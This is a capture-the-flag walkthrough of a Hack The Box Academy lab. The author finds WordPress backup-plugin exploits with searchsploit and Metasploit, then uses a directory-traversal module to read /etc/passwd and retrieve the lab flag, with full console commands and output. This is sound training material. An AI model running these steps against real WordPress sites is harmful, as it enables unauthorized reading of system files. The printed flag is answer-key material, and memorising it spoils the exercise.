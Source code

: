 ```yaml
---
title: "Public Exploits"
date: 2024-07-01
description: Walkthrough of the Public Exploits Box on Hack the Box Academy
menu:
  sidebar:
    name: Public Exploits
    identifier: public-exploits
    parent: htb
    weight: 10
hero: images/htb_academy_hero.jpeg
tags:
- box
- walkthrough
categories:
- Boxes
---
```

### Intro
[Hack The Box - Academy](https://academy.hackthebox.com/module/77/section/843)

*Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file.*

### Research

First, we took our spawned target: `94.237.63.201:54310` (*note: your target will be different*) and opened it in a web browser, which showed us a WordPress site:

{{< img src="/posts/Boxes/HacktheBox/PublicExploits/images/PublicExploits-1.png" align="center" title="Public Exploits Site">}} 
<br />
We used this info to search possible exploits related to WordPress backup and found the following results:

```properties
[htb-ac-1145252@htb-erx4v1fgpb]─[~]
└──╼ $searchsploit wordpress backup
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
WordPress Core 2.2.3 - /wp-admin/edit.php?ba | php/webapps/30979.txt
WordPress Plugin / Joomla! Component XCloner  | php/webapps/35212.txt
WordPress Plugin Backup 2.0.1 - Information D | php/webapps/19524.txt
WordPress Plugin Backup and Restore 1.0.3 - A | php/webapps/50503.txt
Wordpress Plugin Backup Guard 1.5.8 - Remote  | php/webapps/50093.py
WordPress Plugin Backup Migration 1.2.8 - Una | php/webapps/51445.txt
WordPress Plugin BackUpWordPress 0.4.2b - Rem | php/webapps/4593.txt
WordPress Plugin Database Backup < 5.2 - Remo | php/remote/47187.rb
WordPress Plugin Database Backups 1.2.2.6 -  | php/webapps/49984.html
WordPress Plugin DB Backup - Arbitrary File D | php/webapps/35378.txt
WordPress Plugin Duplicator 1.4.6 - Unauthent | php/webapps/50992.txt
WordPress Plugin Recent Backups 0.7 - Arbitra | php/webapps/37752.txt
WordPress Plugin Shopping Cart for WordPress  | php/webapps/38159.txt
WordPress Plugin Simple Backup 2.7.11 - Multi | php/webapps/39883.txt
WordPress Plugin Supsystic Backup 2.3.9 - Loc | php/webapps/49545.txt
WordPress Plugin Total Upkeep 1.14.9 - Databa | multiple/webapps/49252.txt
WordPress Plugin WP BackupPlus - Database and | php/webapps/34124.txt
WordPress Plugin WP-DB Backup 1.6/1.7 - edit | php/webapps/28382.txt
Wordpress Plugin XCloner 4.2.12 - Remote Code | php/webapps/50077.py
WordPress Theme CherryFramework 3.1.4 - Backu | php/webapps/45896.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

and find this matching exploit: 
```properties
WordPress Plugin Simple Backup 2.7.11 - Multi | php/webapps/39883.txt
```

as well as in MetaSploit:
```properties
[msf](Jobs:0 Agents:0) >> search exploit wordpress backup

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/unix/webapp/joomla_akeeba_unserialize          2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   1  exploit/multi/php/wp_duplicator_code_inject            2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   2  exploit/multi/http/wp_db_backup_rce                    2019-04-24       excellent  Yes    WP Database Backup RCE
   3  auxiliary/scanner/http/wp_simple_backup_file_read                       normal     No     WordPress Simple Backup File Read Vulnerability
   4  auxiliary/scanner/http/wp_total_upkeep_downloader      2020-12-12       normal     No     WordPress Total Upkeep Unauthenticated Backup Downloader
   5  auxiliary/scanner/http/wp_bulletproofsecurity_backups  2021-09-17       normal     No     Wordpress BulletProof Security Backup Disclosure
   6  exploit/multi/http/wp_plugin_backup_guard_rce          2021-05-04       excellent  Yes    Wordpress Plugin Backup Guard - Authenticated Remote Code Execution


Interact with a module by name or index. For example info 6, use 6 or use exploit/multi/http/wp_plugin_backup_guard_rce
```
### Exploit Attempt #1
We select #3 as our exploit, check and set its options and then run the exploit - which finds a pwd file and saves it to our host:
```properties
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RHOSTS 94.237.63.201
RHOSTS => 94.237.63.201
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RPORT 54310
RPORT => 54310
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> check
[-] This module does not support check.
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

[+] File saved in: /home/htb-ac-1145252/.msf4/loot/20240625164127_default_94.237.63.201_simplebackup.tra_077024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exit
```
<br />
Exiting MSF, we check our file and its the /etc/passwd file, which doesn't really contain anything useful:

```properties
┌─[htb-ac-1145252@htb-erx4v1fgpb]─[~/.msf4/loot]
└──╼ $cat 20240625164127_default_94.237.63.201_simplebackup.tra_077024.txt 
root:x:0:0:root:/root:/bin/properties
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:105:107::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```
### What Went Wrong?

So what went wrong? Well, if we go back to the options for the exploit in the Metasploit console, we didn't change our path. The prompt for the box clearly states the flag located at `/flag.txt`. So, we'll go back, change the `FILEPATH` and now our options should look like this:
```properties
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /flag.txt        yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     94.237.63.201    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      54310            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.
```
### Exploit Attempt #2
We run our exploit again and get a new file:
```properties
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

[+] File saved in: /home/htb-ac-1145252/.msf4/loot/20240625170124_default_94.237.63.201_simplebackup.tra_307330.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Success - Flag Found
Check our file once more and we have our flag:
```properties
[htb-ac-1145252@htb-erx4v1fgpb]─[~/.msf4/loot]
└──╼ $cat /home/htb-ac-1145252/.msf4/loot/20240625170124_default_94.237.63.201_simplebackup.tra_307330.txt
HTB{my_f1r57_h4ck}
```
<br />
Screenshot:
{{< img src="/posts/Boxes/HacktheBox/PublicExploits/images/PublicExploits-2.png" align="center" title="Public Exploits Answer">}}

